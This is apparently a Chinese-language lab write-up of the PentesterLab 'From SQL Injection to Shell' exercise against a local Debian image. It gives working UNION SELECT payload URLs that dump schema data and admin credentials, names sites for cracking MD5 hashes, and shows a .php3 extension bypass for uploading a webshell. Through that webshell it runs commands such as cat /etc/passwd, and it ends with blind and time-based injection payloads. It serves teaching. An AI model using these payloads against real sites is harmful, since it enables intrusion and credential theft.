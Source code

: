 # From SQL Injection to Shell  

### SQL Injection 产生原因  
- 在应用程序链接数据库时使用权限过大的账户（例如很多开发人员都喜欢用最高权限的系统管理员账户（如常见的root，sa等）连接数据库）。  
- 在数据库中开放了不必要但权力过大的功能（例如在Microsoft SQL Server数据库中的xp_cmdshell延伸预存程序或是OLE Automation预存程序等）  
- 太过于信任用户所输入的数据，未限制输入的字符数，以及未对用户输入的数据做潜在指令的检查。

### SQL Injection 攻击原理   
- 基于B/S应用开发模式编写应用程序，在编写代码的时候，没有对用户输入数据的合法性进行判断，使应用程序存在安全隐患   
- 用户可以提交一段数据库查询代码，根据程序返回的结果，获得某些他想得知的数据  
- SQL注入是从正常的WWW端口访问，而且表面看起来跟一般的Web页面访问没什么区别。  
### SQL Injection 攻击分类
- Classic SQLI —— 典型的SQL注入  
(1) 脚本注入式的攻击  
(2) 恶意用户输入用来影响被执行的SQL脚本
- Blind or Inference SQL injection —— 盲注入 / 推理注入
- Database management system-specific SQLI ——数据库管理系统的特定SQL注入
- Compounded SQLI ——复合SQL注入  
SQL injection + insufficient authentication —— SQL注入+不充分认证  
SQL injection + DDoS attacks —— SQL注入+DDoS攻击  
SQL injection + DNS hijacking ——  SQL注入+DNS劫持  
SQL injection + XSS —— SQL注入+XSS


### 基本思路   
- 收集web开发的基本信息  
- 检测并利用SQL注入检索信息
- 获取管理员权限并执行代码  

### 实验环境   
- 服务器采用的是Pentesterlab封装好的镜像来进行搭建，采用的是debian的系统。  
- 攻击方可采用kali、Windows等多种系统。     

### 实验过程
- **通过调查分析得知目标是基于PHP开发的网站**   
- **SQL注入漏洞的判断**  
一般来说，SQL注入一般存在于形如："HTTP://xxx.xxx.xxx/abc.asp?id=XX" 等带有参数的ASP、PHP等动态网页中，有时一个动态网页中可能只有一个参数，有时可能有N个参数，有时是整型参数，有时是字符串型参数，不能一概而论。总之只要是带有参数的动态网页且此网页访问了数据库，那么就有可能存在SQL注入  
  **1.整型参数的判断**  
  **2.字符串型参数的判断**  
  
- **利用关键词UNION检索信息**  
为了执行一个SQL注入请求，需要知道查询第一部分返回的列数  
两种方法：  
1.使用UNION SELECT语句并增加列数。如果UNION语句连接的两个查询返回的列数不同，数据库会报错。因此可以通过这个方法来猜测列数  
**示例：**  
  列数不同时会报错： 
![](image/1.jpg)  
列数相同时则能正常显示：  
http://localhost/cat.php?id=1%20union%20select%201,2,3,4  
说明该页面的列数为4  
2.使用ORDER BY 语句，返回的结果会根据ORDER BY 语句选择的列进行排序，ORDER BY后可以是列名，也可以是第几列的数字，如果列数超出现有值，数据库会报错。因此可以通过这个方法可以找到最后一列  
**示例**  
列数小于等于页面列数时，可以正常显示  
列数大于页面列数时，会报错：  
http://localhost/cat.php?id=1%20order%20by%205  
![](image/2.jpg)  
- **基于所收到的错误消息，得知所使用的后台数据库是MySQL**  
利用这些信息，可以强制数据库执行一个函数或发送信息给我们  
两种方法：  
1.使用current_user()语句，用来取得 MySQL 当前使用者名称 
2.使用version()语句，得到数据库版本号  
**示例：**  
**the database version:** http://localhost/cat.php?id=1%20UNION%20SELECT%201,@@version,3,4  
http://localhost/cat.php?id=1%20union%20select%201,version%28%29,3,4  
![](image/3.jpg)  
   **the current user:** http://localhost/cat.php?id=1%20UNION%20SELECT%201,current_user(),3,4  
![](image/4.jpg)  
**the current database:** http://localhost/cat.php?id=1%20UNION%20SELECT%201,database(),3,4  
![](image/5.jpg)  
 **利用返回的meta-information构建最终请求**  
从MySQL版本5开始，MySQL提供关于数据库、表、列的meta-information，这些信息储存在information_schema数据库里  
得到列与其对应的表  
**the list of tables:** http://localhost/cat.php?id=1%20UNION%20SELECT%201,table_name,3,4%20FROM%20information_schema.tables
![](image/6.jpg)  
**the list of columns:**http://localhost/cat.php?id=1%20UNION%20SELECT%201,column_name,3,4%20FROM%20information_schema.columns  
![](image/7.jpg)  
**利用查询语句得到管理员账号与密码**  
- 获取用于访问管理页面的用户名和密码：http://localhost/cat.php?id=1%20UNION%20SELECT%201,concat(login,%27:%27,password),3,4%20FROM%20users  
 ![](image/8.jpg)  
**利用网络查询或密码破解工具得到密码明文**  
- [md5在线解密破解（需要付费）](http://www.cmd5.com/)  
![](image/9.jpg) 
- [md5在线解密破解](http://pmd5.com/)  
![](image/10.jpg)  
**根据已知的账号密码成功登录到管理员界面：**
 ![](image/11.jpg) 
**上传webshell和执行代码获取管理员权限**  
webshell就是以asp、php、jsp或者cgi等网页文件形式存在的一种命令执行环境，也可以将其称做为一种网页后门。黑客在入侵了一个网站后，通常会将asp或php后门文件与网站服务器WEB目录下正常的网页文件混在一起，然后就可以使用浏览器来访问asp或者php后门，得到一个命令执行环境，以达到控制网站服务器的目的  
- 用账号密码登陆网站，找到上传文件位置，上传一个 php 脚本  
![](image/12.jpg)  
![](image/13.jpg)  
![](image/14.jpg)  
我们可以看到这个脚本没有在服务器上正确上传。应用防止文件扩展名.PHP上传。然而，我们可以尝试：  
- .PHP3这将绕过简单的.php过滤器  
- .php.test这将绕过简单的.php过滤器，但Apache仍会将它视作.php文件，因为配置中没有对于.test文件的处理器。  
![](image/15.jpg)  
修改后可以成功上传  
打开上传的图片，通过查看该页面的源代码，得到图片的URL  
![](image/16.jpg)  
访问http://localhost/admin/uploads/shell.php3?cmd=uname将运行在操作系统的命令信息并返回当前的内核（Linux）  
![](image/17.jpg)  
其他命令可以用来检索更多的信息：  
cat /etc/passwd 来得到系统的完整的用户列表  
![](image/18.jpg) 
uname -a 获取当前的内核版本  
![](image/19.jpg)
ls 获取当前目录的内容  
![](image/20.jpg)  
###参考资料  
1. [pentesterlab course](https://pentesterlab.com/exercises/from_sqli_to_shell/course)  
2. [WIKIPEDIA SQL injection](https://en.wikipedia.org/wiki/SQL_injection)
3. [百度百科 SQL注入攻击](http://baike.baidu.com/view/983303.htm)
4. [各种博客](http://www.myhack58.com/Article/html/3/7/2014/44097.htm)  
###试验中出现的问题
当宿主机出于不能无网络连接时，用虚拟机打开网站端系统，设置中如果选择‘桥接网卡’则无法在宿主机上通过http://localhost/查找到页面，但是通过NAT模式，仅主机（Host-Only）适配器模式则可以打开页面。  
####原因：  
在桥接网卡模式下，虚拟出来的操作系统就像是局域网中的一台独立的主机，它可以访问网内任何一台机器。在此模式下，需要手工为虚拟系统配置IP地址、子网掩码、而且还要和宿主机出于同一网段，这样虚拟系统才能和宿主机器进行通信。 **虚拟机有独立的IP**  
 NAT(网络地址转换模式)，虚拟机借助NAT（网络地址转换）功能，通过宿主机所在的网络来访问公网。NAT模式下的虚拟系统的TCP/IP配置信息是由VMnet8(NAT)虚拟网络的DHCP服务器提供的，无法进行手工修改，因此虚拟系统无法和本局域网中的其他真是主机进行通信。虚拟机可以访问主机，但主机无法访问到虚拟机。**虚拟机没有自己独立的IP**  
仅主机（Host-Only）适配器模式，用于在无需主机的物理网卡的情况下，创建一个网络，该网络中，只有宿主机和旗下的一些虚拟机。虚拟机和主机之间，就像中间连接了一个物理上的网卡交换机Switch一样，是可以互相通讯的。  
## 盲注  
### 为什么叫盲注  
与普通的注入不同的是，SQL盲注是一种通过向数据库请求真或假的问题然后根据回应来决定或判断答案的一种SQL注入式攻击。例如发现了SQL注入点，但应用只提供了一个通用的错误页面，或者说提供了正常的页面，但与我们取回的内容只有细小差异（部分可能不可见或不易观察），这些就属于SQL盲注。  
### SQL盲注分类  
- 基于内容  
    *  "xxx.php?id=2 and 1=2" 
    * If the content of the page that returns 'true' is different than that of the page that returns 'false', then the attacker is able to distinguish when the executed query returns true or false.  
- 基于时间  
    *  "xxx.php?id=1' waitfor delay '00:00:10'--"  (Microsoft SQL Server)  
    * Mysql 常搭配 sleep()与benchmark()使用  
    * 通过服务器响应的时间可以判断出语句成功或失败  
**SQL盲注实质仍属于SQL注入，需要通过多次进行真假的询问来对内容进行逐字符的猜解**  



